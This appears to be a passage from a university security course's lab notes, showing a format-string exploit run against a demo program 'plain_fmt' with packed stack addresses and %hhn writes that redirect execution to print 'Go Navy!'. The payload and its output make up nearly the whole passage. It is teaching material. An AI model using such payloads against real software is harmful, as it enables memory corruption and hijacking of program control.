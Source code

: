 ``` {.example}
user@si485H-base:demo$ python -c "print ((0x100 - 0x8e) + 0x7d + 8)%256"
247
user@si485H-base:demo$ ./plain_fmt $(printf "\x8f\xf6\xff\xbf")$(printf "\x8e\xf6\xff\xbf")$(printf "\x8d\xf6\xff\xbf")$(printf "\x8c\xf6\xff\xbf")%1\$247x.%123\$hhn.%1\$250x.%124\$hhn.%1\$126x.%125\$hhn.%1\$247x.%126\$hhn.%7\$#08x 
????????????????                                                                                                                                                                                                                                               bffff724..                                                                                                                                                                                                                                                  bffff724..                                                                                                                      bffff724..                                                                                                                                                                                                                                               bffff724..0xdeadbeef
Go Navy!
Segmentation fault (core dumped)
```

And, "Go Navy!" Boom.

